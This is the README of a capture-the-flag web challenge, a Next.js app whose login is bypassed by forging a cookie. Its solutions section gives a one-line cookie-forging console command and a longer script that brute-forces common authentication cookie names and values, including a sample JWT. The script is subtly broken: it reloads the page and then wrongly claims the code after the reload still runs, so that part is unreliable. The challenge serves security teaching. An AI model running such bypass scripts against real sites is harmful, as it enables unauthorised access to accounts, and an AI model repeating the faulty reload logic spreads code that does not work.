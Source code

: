 # 🎯 Otaku Hunter CTF

## 🏴‍☠️ Challenge Description

Welcome to the Otaku Hunter CTF! This is a web security challenge where you need to find a way to bypass the authentication system.

### 🎯 Objective
Find a way to access the protected content without knowing the password.

### 💡 Hints
- The authentication system might have some vulnerabilities
- Inspect how the application handles authentication
- Browser's developer tools might be helpful

### 🚀 Getting Started
1. Clone this repository
```bash
git clone https://github.com/Moha-df/otakuhunterCTF.git
cd otakuhunterCTF
```

2. Install dependencies
```bash
npm install
```

3. Run the development server
```bash
npm run dev
```

4. Open [http://localhost:3000](http://localhost:3000) in your browser

### 🏆 Solutions

#### Basic Solution
<details>
<summary>Click to reveal the basic solution</summary>

The authentication can be bypassed by creating an auth cookie in the browser's console:
```javascript
document.cookie = "auth_token=any_value; path=/; secure; samesite=strict";
```

This vulnerability exists because the application only checks for the presence of the auth_token cookie, not its value.
</details>

#### Advanced Solution
<details>
<summary>Click to reveal the advanced solution (Automated Cookie Testing Script)</summary>

You can use this script to automatically test various authentication cookie bypasses:

```javascript
// WARNING: This script is for educational purposes only
// Use exclusively on your own systems for security testing

// List of common authentication cookie names
const commonAuthCookieNames = [
  "auth_token",
  "authToken",
  "token",
  "session",
  "sessionid",
  "sid",
  "user_session",
  "usersession",
  "authenticate",
  "authenticated",
  "login",
  "logged_in",
  "loggedin",
  "user_id",
  "userId",
  "uid",
  "remember",
  "remember_token",
  "access_token",
  "accessToken",
  "jwt",
  "id_token",
  "idToken",
  "credential",
  "auth",
  "authorization",
  "user",
  "account",
  "ssid",
  "pass",
  "csrf",
  "xsrf"
];

// Values to try for cookies
const valuesToTry = [
  "true",
  "1",
  "yes",
  "authenticated",
  "valid",
  Math.random().toString(36).substring(2),  // Random value
  btoa("admin"),  // "admin" encoded in base64
  btoa("user"),   // "user" encoded in base64
  "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiIxMjM0NTY3ODkwIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"  // Fake JWT token format
];

// Function to create a cookie and record its name
function createAuthCookie(name, value) {
  console.log(`Trying cookie: ${name} = ${value}`);
  document.cookie = `${name}=${value}; path=/; secure; samesite=strict`;
  return name;
}

// Function to delete a cookie
function deleteCookie(name) {
  document.cookie = `${name}=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;`;
}

// Main function to test cookies
async function testAuthCookies() {
  console.log("Starting cookie bypass tests...");
  console.log("Current URL: " + window.location.href);
  
  // Initial state: are we on a login page?
  const initialPageIsLogin = window.location.pathname === "/" || 
                            window.location.href.includes("login");
  
  if (!initialPageIsLogin) {
    console.log("We're already on an authenticated page, test impossible");
    return;
  }
  
  const createdCookies = [];
  let successfulCookie = null;
  
  // First clean any existing cookies
  commonAuthCookieNames.forEach(name => deleteCookie(name));
  
  // Try each cookie name with different values
  for (const name of commonAuthCookieNames) {
    // If we already found a bypass, stop
    if (successfulCookie) break;
    
    for (const value of valuesToTry) {
      // Create the cookie
      createdCookies.push(createAuthCookie(name, value));
      
      // Wait a short moment
      await new Promise(resolve => setTimeout(resolve, 500));
      
      // Reload the page to see if the cookie worked
      const currentUrl = window.location.href;
      window.location.reload();
      
      // This part will execute after reload
      // If we're redirected to another page, we've succeeded
      if (window.location.href !== currentUrl && !window.location.href.includes("login")) {
        console.log(`SUCCESS! Cookie bypass found: ${name}=${value}`);
        successfulCookie = { name, value };
        break;
      }
      
      // Delete the cookie before trying the next one
      deleteCookie(name);
    }
  }
  
  // Clean up created cookies
  createdCookies.forEach(name => deleteCookie(name));
  
  if (successfulCookie) {
    console.log(`Test completed. Bypass found with: ${successfulCookie.name}=${successfulCookie.value}`);
    return successfulCookie;
  } else {
    console.log("Test completed. No bypass found.");
    return null;
  }
}

// Run the test
testAuthCookies().then(result => {
  if (result) {
    console.log("To reproduce the bypass, run:");
    console.log(`document.cookie = "${result.name}=${result.value}; path=/; secure; samesite=strict";`);
    console.log("Then reload the page.");
  }
});
```

Copy this script into your browser's console to automatically test various cookie-based authentication bypasses.
</details>

## 🛡️ Educational Purpose
This CTF is designed for educational purposes to demonstrate:
- The importance of proper cookie validation
- Why you shouldn't trust client-side data
- How to properly implement authentication systems

## 🎨 Features
- Next.js 14 application
- Animated background with floating particles
- Responsive design
- Red-themed UI inspired by One Piece

## 👨‍💻 Author
Made by Soki